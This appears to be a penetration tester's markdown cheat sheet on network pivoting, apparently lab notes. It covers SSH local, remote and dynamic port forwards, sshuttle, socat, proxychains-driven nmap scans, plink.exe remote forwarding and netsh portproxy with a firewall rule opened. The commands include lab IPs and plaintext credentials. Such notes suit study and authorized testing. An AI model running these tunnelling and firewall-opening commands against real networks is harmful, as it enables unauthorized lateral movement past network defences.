 # SSH Port Forward

## _Linux_

LHOST == listener aka tunnel start\
RHOST == "Receiver" aka tunnel end\
FHOST == TARGET we're trying to get to

### Local

!\[\[ssh\_lpf 1.jpg]]\
WAN(**LHOST**) ==== INTERNAL(**RHOST**) ----> SUB-INTERNAL(**FHOST**)

```shell

ssh -N -L LHOST:LPORT:RHOST:RPORT usern@RHOST



# 2. In Kali
# service    LPORT         LHOST
#  \/         \/            \/                    
smbclient -p 4455 -L //192.168.183.63/ -U hr_admin --password=Welcome1234
```

### Remote

_**Use if inbound ssh is filtered/closed**_

```shell
ssh -N -R 127.0.0.1:LPORT:FHOST:FPORT kali@192.168.%.%
# service access via 127.0.0.1 LPORT 
```

!\[\[Screenshot 2024-10-07 at 8.49.31 PM.png]]\
kali(**LHOST**) ==== WAN(**RHOST**) ----> INTERNAL(**FHOST**)

```shell
# 1. In Kali
#
sudo systemctl start ssh
sudo ss -tulpn



# 2. On WAN
#                   LPORT    FHOST    FPORT       LHOST    
#                    \/       \/       \/          \/
ssh -N -R 127.0.0.1:2345:10.4.232.215:5432 kali@192.168.%.%



# 3. In Kali, check using ss -tulpn for a connection
#
# Access using the 127.0.0.1:2345
psql -h 127.0.0.1 -p 2345 -U postgres
```

### sshuttle (dynamic)

_Alternate to Dynamic Port Forward and PREFERRED if we have direct access to an SSH server, behind which is a more complex internal network as classic dynamic port forwarding might be difficult to manage**REQUIRES**_

1. **root** on SSH client initiating connection,
2. **python3** on the SSH server\
   !\[\[ssh\_dpf.jpg]]WAN(**LHOST**) ==== INTERNAL(**RHOST**) ----> SMB on SUB-INTERNAL(**FHOST**)

```shell
# 1. on WAN, setup local port forward
#                            INTERNAL-with-ssh
#                                  \/
socat TCP-LISTEN:2222,fork TCP:10.4.50.215:22



# 2. in KALI , run routing to other SUB-INTERNAL addresses:
#                                 WAN           INTERNAL     SUB-INTERNAL
#                                  \/               \/             \/
sshuttle -r database_admin@192.168.50.63:2222 10.4.50.0/24 172.16.50.0/24
#
# Access service. SMB as an example
smbclient -L //172.16.50.217/ -U hr_admin --password=Welcome1234
```

### Dynamic

!\[\[ssh\_dpf.jpg]]\
WAN(**LHOST**) ==== INTERNAL(**RHOST**) ----> NMAP on SUB-INTERNAL(**FHOST**)

```shell
# 1. On WAN
#                LPORT     username     RHOST
#                  \/         \/          \/
ssh -N -D 0.0.0.0:9999 database_admin@10.4.50.215



# 2. In Kali, change proxychains config to ADD WANIP and port from above
# sudo mousepad /etc/proxychains4.conf &
#                 LPORT
#                   \/
# socks5 WANIP 9999
# nmap scan against the 172.16.232.217 FHOST
seq 4800 4900 | xargs -P 50 -I{} proxychains nmap -p {} -sT -Pn --open -n -T4 --min-parallelism 100 --min-rate 1 --oG proxychains_nmap --append-output 172.16.232.217
cat proxychains_nmap | grep -e "^Host.*open"

# box64 via proxychains
proxychains box64 ./ssh_dynamic_client -i 172.16.232.217 -p 4872

#https://www.hackwhackandsmack.com/?p=1021
```

### Remote Dynamic

!\[\[Screenshot 2024-10-07 at 8.57.59 PM.png]]\
Kali(**LHOST**) ==== WAN(**RHOST**) ----> NMAP on SUB-INTERNAL(**FHOST**)

```shell
# 1. On WAN
#
ssh -N -R 9998 kali@192.168.#.#



# 2. In Kali, proxychains config to match port from above
#
# socks5 127.0.0.1 9998

# can reach hosts now so example showing nmap
seq 9000 9100 | xargs -P 50 -I{} proxychains nmap -p {} -sT -Pn --open -n -T4 --min-parallelism 100 --min-rate 1 --oG proxychains_nmap_remote_dynamic --append-output 10.4.232.64
cat proxychains_nmap_remote_dynamic | grep -e "^Host.*open"

# box64 via proxychains
proxychains box64 ./ssh_remote_dynamic -i 10.4.232.64 -p 9062
```

## _Windows_

### ssh

Same methodologies

### Plink.exe

_**if no ssh, can use this which is putty made ssh client**_\
!\[\[Screenshot 2024-10-07 at 9.14.35 PM.png]]\
Example Remote Port Forward to get RDP access

```shell
cmd.exe /c echo y | C:\Windows\Temp\plink.exe -ssh -l kali -pw <YOUR PASSWORD HERE> -R 127.0.0.1:9833:127.0.0.1:3389 KALI_IP
```

### netsh

_**Requires**_ _**ADMIN** and/or **UAC**_\
!\[\[Screenshot 2024-10-08 at 5.14.24 PM.png]]\
|| WAN ===== INTERNAL with database service

```shell
# 1. On WAN, 
# CREATE forwarder
#
netsh interface portproxy add v4tov4 listenport=2222 listenaddress=192.168.50.64 connectport=22 connectaddress=10.4.50.215
#
# CHECK forwarder was created
netstat -anp TCP | find "2222"
netsh interface portproxy show all
#
# POKE a Hole in the Windows Firewall
netsh advfirewall firewall add rule name="port_forward_ssh_2222" protocol=TCP dir=in localip=192.168.50.64 localport=2222 action=allow



# 2. In KALI check Host is accessible
#
sudo nmap -sS 192.168.50.64 -Pn -n -p2222
#
# Access service. SSH as example
ssh database_admin@192.168.50.64 -p2222



# CLEANUP firewall rule and delete the forwarder once finished
#
netsh advfirewall firewall delete rule name="port_forward_ssh_2222"
netsh interface portproxy del v4tov4 listenport=2222 listenaddress=192.168.50.64
```
